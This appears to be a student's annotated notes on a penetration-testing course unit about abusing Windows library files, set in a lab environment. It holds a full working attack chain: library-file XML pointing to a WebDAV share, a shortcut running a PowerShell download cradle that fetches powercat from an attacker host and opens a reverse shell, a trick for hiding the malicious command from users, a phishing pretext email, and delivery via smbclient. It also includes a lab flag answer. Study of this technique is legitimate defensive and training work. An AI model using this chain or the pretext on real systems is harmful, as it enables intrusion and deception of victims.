

# Abusing Windows Library Files
powercat install path

This Learning Unit covers the following Learning Objectives:

- Prepare an attack with Windows library files
- Leverage Windows shortcuts to obtain code execution  

Many security products scan for malicious macros. Microsoft also provides guides1 and Group Policy Object (GPO)2 templates3 to mitigate and reduce this threat. In addition, most social engineering awareness training programs focus on preventing this vector. These factors make this a difficult vector to successfully execute.

In this Learning Unit, we'll explore Windows library files,4 which are a lesser-known threat but equally effective.

## Obtaining Code Execution via Windows Library Files
Windows library files are virtual containers for user content. They connect users with data stored in remote locations like web services or shares. These files have a .Library-ms file extension and can be executed by double-clicking them in Windows Explorer.   
>**what's the library file extension?**

  
it is a file that can manage the file easily or convenient to find your file

> **How to create one using vscode?**  
> Must have some experience of xml  
xml is same as json which is used to transfer the data from one place to another
>> *Why library file use xml*  
- 自描述性：XML的自描述性质意味着库文件的结构和内容可以直接从文件本身解读出来。这对于定义复杂结构的库文件来说是很有用的。
- 标准化和兼容性：XML的标准化确保了库文件可以在各种系统和应用程序中兼容使用。
- 扩展性：XML的扩展性允许库文件随着应用需求的变化而轻松修改和更新。
- 平台和语言独立性：XML不依赖于特定的平台或编程语言，这使得库文件可以在不同的环境中灵活使用。
1. the document file's extension is .xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<note>
    <to>Tove</to>
    <from>Jani</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
</note>
```
2. we can use js or ajax(web)  
html structure
```html
<ul id="user-list">
  <!-- 用户信息将被加载到这里 -->
</ul>
```
```js
// 假设xmlString是你从服务器接收到的XML字符串
let xmlString = `这里是XML数据字符串`;

let parser = new DOMParser();
let xmlDoc = parser.parseFromString(xmlString, "text/xml");

// 获取所有用户元素
let users = xmlDoc.getElementsByTagName("user");

// 获取用户列表的HTML元素
let userList = document.getElementById("user-list");

// 遍历每个用户并添加到列表中
for (let i = 0; i < users.length; i++) {
    let name = users[i].getElementsByTagName("name")[0].childNodes[0].nodeValue;
    let email = users[i].getElementsByTagName("email")[0].childNodes[0].nodeValue;

    // 创建新的列表项
    let li = document.createElement("li");
    li.textContent = `Name: ${name}, Email: ${email}`;

    // 添加到用户列表中
    userList.appendChild(li);
}

```
ajax
```js
// 发起fetch请求获取XML数据
fetch('https://example.com/users.xml')
  .then(response => response.text()) // 将响应转换为文本
  .then(str => new DOMParser().parseFromString(str, "text/xml")) // 将文本解析为XML
  .then(data => {
    // 获取所有用户元素
    const users = data.getElementsByTagName("user");

    // 获取用户列表的HTML元素
    const userList = document.getElementById("user-list");

    // 清空现有列表
    userList.innerHTML = '';

    // 遍历每个用户并添加到列表中
    for (let i = 0; i < users.length; i++) {
        const name = users[i].getElementsByTagName("name")[0].childNodes[0].nodeValue;
        const email = users[i].getElementsByTagName("email")[0].childNodes[0].nodeValue;

        // 创建新的列表项
        const li = document.createElement("li");
        li.textContent = `Name: ${name}, Email: ${email}`;

        // 添加到用户列表中
        userList.appendChild(li);
    }
  })
  .catch(error => {
    console.error('Error fetching XML:', error);
  });

```
https://www.w3schools.com/xml/

In this section, we'll leverage a two-stage client-side attack. In the first stage, we'll use Windows library files to gain a foothold on the target system and set up the second stage. In the second stage, we'll use the foothold to provide an executable file that will start a reverse shell when double-clicked.
>foothold 侵入点

First, we'll create a Windows library file connecting to a WebDAV1 share we'll set up. In the first stage, the victim receives a .Library-ms file, perhaps via email. When they double-click the file, it will appear as a regular directory in Windows Explorer. In the WebDAV directory, we'll provide a payload in the form of a .lnk shortcut file for the second stage to execute a PowerShell reverse shell. We must convince the user to double-click our .lnk payload file to execute it.

At first glance, it may seem that we could accomplish this by serving the .lnk file for the second stage with a web server like Apache. The disadvantage is that we would need to provide our web link to the victim (again, perhaps by email). Most spam filters and security technologies analyze the contents of a link for suspicious content or executable file types to download. This means that our links may be filtered before even reaching the victim.

On the other hand, a majority of spam filters and security technologies will pass Windows library files directly to the user. When they double-click the file, Windows Explorer displays the contents of the remote location as if it were a local directory. In this case, the remote location is a WebDAV share on our attack machine. Overall, this is a relatively straightforward process and makes it seem as if the user is double-clicking a local file.

To demonstrate this, we'll first set up a WebDAV share on our Kali system. We'll use WsgiDAV2 as the WebDAV server to host and serve our files. We can use pip3 to install WsgiDAV.

```bash
pip3 install wsgidav
```  
Once WsgiDAV is installed, we'll create the /home/kali/webdav directory to use as the WebDAV share that will contain our .lnk file. For now, let's place a test.txt file in this directory.

    If the installation of WsgiDAV fails with error: externally-managed-environment, we can use a virtual environment3 or install the package python3-wsgidav with apt. In PEP 668,4 a change was introduced to enforce the use of virtual environments and prevent situations in which package installations via pip break the operating system.

Next, we'll run WsgiDAV from the /home/kali/.local/bin directory. In the case that WsgiDAV was installed via apt, the installation path differs and wsgidav should be used as command to start the server throughout the course. The first parameter we'll provide is --host, which specifies the host to serve from. We'll listen on all interfaces with 0.0.0.0. Next, we'll specify the listening port with --port=80 and disable authentication to our share with --auth=anonymous. Finally, we'll set the root of the directory of our WebDAV share with --root /home/kali/webdav/.
```bash
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
The output indicates that the WebDAV server is now running on port 80. Let's confirm this by opening http://127.0.0.1 in our browser.

Figure 25 shows that we could successfully browse to the WebDAV share and view test.txt.

Next, let's create the Windows library file. We'll use xfreerdp to connect to the CLIENT137 machine at 192.168.50.194 via RDP to prepare our attack. We can connect to the system with offsec as the username and lab as the password. This will make it a lot easier for us to build and test our library file, and later, our shortcut file.

Once connected, we'll find the Visual Studio Code (VSC)5 application on the desktop, which we'll use to create our library file. We should note that we could also use Notepad to create the file. Let's open VSC by double-clicking the icon.
In the menu bar, we'll click on File > New Text File. We'll then save the empty file as config.Library-ms on the offsec user's desktop. As soon as we save the file with this file extension, it is displayed with an icon. While the icon doesn't look dangerous, it is not commonly used by Windows and therefore may raise suspicions. To increase the chances that our victim will execute our file, let's change its appearance.

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations. The parts are General library information, Library properties, and Library locations. Let's build the XML code by adding and explain the tags. We can refer to the Library Description Schema6 for further information. We'll begin by adding the XML and library file's format version.

The listing below contains the namespace7 for the library file. This is the namespace for the version of the library file format starting from Windows 7. The listing also contains the closing tag for the library description. All of the following tags we cover will be added inside the libraryDescription8 tags.

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```
Next, we'll add two tags providing information about the library. The name9 tag specifies the name of this library. We must not confuse this with an arbitrary name we can just set randomly. We need to specify the name of the library by providing a DLL name and index. We can use @shell32.dll,-34575 or @windows.storage.dll,-34582 as specified on the Microsoft website. We'll use the latter to avoid any issues with text-based filters that may flag on "shell32". The version10 tag can be set to a numerical value of our choice, for example, 6.

```
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

Next, we'll add the isLibraryPinned11 tag. This element specifies if the library is pinned to the navigation pane in Windows Explorer. For our targets, this may be another small detail to make the whole process feel more genuine and therefore, we'll set it to true. The next tag we'll add is iconReference,12 which determines what icon is used to display the library file. We must specify the value in the same format as the name element. We can use imagesres.dll to choose between all Windows icons. We can use index "-1002" for the Documents folder icon from the user home directories or "-1003" for the Pictures folder icon. We'll provide the latter to make it look more benign.

```
<isLibraryPinned>true</isLibraryPinned>
<iconReference>@imagesres.dll,-1003</iconReference>
```

Now, let's add the templateInfo13 tags, which contain the folderType14 tags. These tags determine the columns and details that appear in Windows Explorer by default after opening the library. We'll need to specify a GUID that we can look up on the Microsoft documentation15 webpage. For this example, we'll use the Documents GUID to appear as convincing as possible for the victim.

```
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

The next tag marks the beginning of the library locations section. In this section, we specify the storage location where our library file should point to. We'll begin by creating the searchConnectorDescriptionList,16 tag which contains a list of search connectors17 defined by searchConnectorDescription.18 Search connectors are used by library files to specify the connection settings to a remote location. We can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags. For this example we only specify one.

Inside the description of the search connector, we'll specify information and parameters for our WebDAV share. The first tag we'll add is the isDefaultSaveLocation19 tag with the value set to true. This tag determines the behavior of Windows Explorer when a user chooses to save an item. To use the default behavior and location, we'll set it to true. Next, we'll add the isSupported tag, which is not documented in the Microsoft Documentation webpage, and is used for compatibility. We can set it to false.

The most important tag is url,20 which we need to point to our previously-created WebDAV share over HTTP. It is contained within the simpleLocation21 tags, which we can use to specify the remote location in a more user-friendly way as the normal locationProvider22 element.

```xml
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

Let's paste the code into Visual Studio Code.

We have just reviewed the XML code for all of the sections of our library File. We now have a basic understanding of the inner workings of library files and can customize them to fit our needs. The following listing shows the entire XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
Let's save and close the file in Visual Studio Code. We'll then double-click the config.Library-ms file on the Desktop.


When we open the directory in Explorer, we find the previously-created test.txt file we placed in the WebDAV share. Therefore, the library file works and embeds the connection to the WebDAV share.

Very nice!

As an added bonus, the path in the navigation bar only shows config without any indication that this is actually a remote location. This makes it a perfect first stage for our client-side attack.

When we re-open our file in Visual Studio Code, we find that a new tag appeared named serialized.23 The tag contains base64-encoded information about the location of the url tag. Additionally, the content inside the url tags has changed from http://192.168.119.2 to \\192.168.119.2\DavWWWRoot. Windows tries to optimize the WebDAV connection information for the Windows WebDAV client24 and therefore modifies it.


The library file still works when we double-click it, but due to the encoded information in the serialized tag, it may not be working on other machines or after a restart. This could result in a situation where our client-side attack fails, because Windows Explorer shows an empty WebDAV share.

To avoid running into any issues when performing this attack, we can reset the file to its original state by pasting the contents of listing 17 into Visual Studio Code. Unfortunately, we need to do this every time we execute the Windows library file. However, this is not a big deal since in most assessments we only need the victim to double-click the file once. Once the file has returned to its original state, we are ready to send the file to our victim.

Now that we have a working Windows library file, we'll need to create the shortcut file. The goal is to start a reverse shell by putting the .lnk shortcut file on the WebDAV share for the victim to execute.

Let's create the shortcut on the desktop for the offsec user. For this, we'll right-click on the desktop and click on New then on Shortcut. In the Create Shortcut window, we can enter a path to a program along with arguments, which will be pointed to by the shortcut. We'll point the shortcut to PowerShell and use another download cradle to load PowerCat from our Kali machine and start a reverse shell.

We'll use the command we leveraged previously:

```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
```
We'll enter this command into the input field and click Next.


    If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.
    就是说我们可以通过在文件的属性菜单中添加一个逗号和一个恶意命令来推送恶意命令到可见范围之外。
    文件默认属性查看快捷路径，系统只会显示文件的前半部分的路径。  

- `harmless_command.exe; malicious_command.exe`

In the next window, let's enter automatic_configuration as the name for the shortcut file and click Finish to create the file.

On our Kali machine, let's start a Python3 web server on port 8000 where powercat.ps1 is located and start a Netcat listener on port 4444.

    Instead of using a Python3 web server to serve Powercat, we could also host it on the WebDAV share. However, as our WebDAV share is writable, AV and other security solutions could remove or quarantine our payload. If we configure the WebDAV share as read-only, we'd lose a great method of transferring files from target systems. Throughout this course, we'll use a Python3 web server to serve our payload for attacks utilizing Windows Library files.

To confirm that the download cradle and the PowerCat reverse shell works, let's double-click the shortcut file on the desktop. After confirming that we want to run the application in the appearing window, the Netcat listener should receive a reverse shell
`nc -nvlp 4444`
To conclude this section, let's obtain a reverse shell from the HR137 machine at 192.168.50.195. For this example, we'll provide the Windows library file we created to a simulated victim with a pretext. Our goal is to convince the victim to double-click the shortcut after embedding the WebDAV share via the prepared Windows library file.

The pretext is an important aspect of this client-side attack. In this case we could tell the target that we are a new member of the IT team and we need to configure all client systems for the new management platform. We'll also tell them that we've included a user-friendly configuration program. An example email for use in a real assessment is shown below.

  Hello! My name is Dwight, and I'm a new member of the IT Team. 

  This week I am completing some configurations we rolled out last week.
  To make this easier, I've attached a file that will automatically
  perform each step. Could you download the attachment, open the
  directory, and double-click "automatic_configuration"? Once you
  confirm the configuration in the window that appears, you're all done!

  If you have any questions, or run into any problems, please let me
  know!

Now, let's copy automatic_configuration.lnk and config.Library-ms to our WebDAV directory on our Kali machine. For convenience, we can use the config library file to copy the files into the directory. In a normal assessment we would most likely send the library file via email but for this example, we'll use the \\192.168.50.195\share SMB share to simulate the delivery step.

Next, we'll start the Python3 web server on port 8000 to serve powercat.ps1, WsgiDAV for our WebDAV share /home/kali/webdav, and a Netcat listener on port 4444.

To upload the library file to the SMB share, we'll use smbclient25 with the -c parameter to specify the put config.Library-ms command. Before we execute smbclient, we need to change our current directory to the library file's directory. We'll also delete the previously-created test.txt file from the WebDAV share.

```bash
cd webdav
cd webdav
rm test.txt
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```
After we put the library file on the target's machine via smbclient, a simulated user on the system opens it and starts the reverse shell by executing the shortcut file.
```bash
nc -nvlp 4444
whoami
```
Listing 22 shows that we successfully received a reverse shell with our Library and shortcut files.

Excellent.

We could also have combined this technique with our previous Office macro attack, or any other type of client-side attacks.

In this section, we learned about Windows Library files and how to weaponize them as an effective first stage to deliver an executable file in client-side attacks. As second stage, we used a shortcut file to download PowerCat and start a reverse shell. Windows Library files are a great way to deliver our second stage payloads without exposing them to security technologies such as spam filters.

## lab
>1. Follow the steps in this section to get code execution on the HR137 (VM Group 1 - VM #2) system by using library and shortcut files. Be aware that after every execution of a .lnk file from the WebDAV share, the library file from the SMB share will be removed. You can find the flag on the desktop of the hsmith user. You can use VM #1 of VM Group 1 to build the library file and shortcut.  
Answer:OS{a9151432b6092267cd5a3b22be700372}
it is most like the task one,just follow the instruction.
<video id="video" controls="" preload="none" poster="封面">
      <source id="1" src="lab1.mp4" type="video/mp4">
</videos>

> 2. Answer the following question with true or false: Is the .lnk file tagged with the "Mark of the Web" when you execute it in Explorer by double-clicking the Windows library file?  
Answer True
  

<video id="video" controls="" preload="none">
  <source id='2' src="v-proof.mp4" type="video/mp4">
</video>
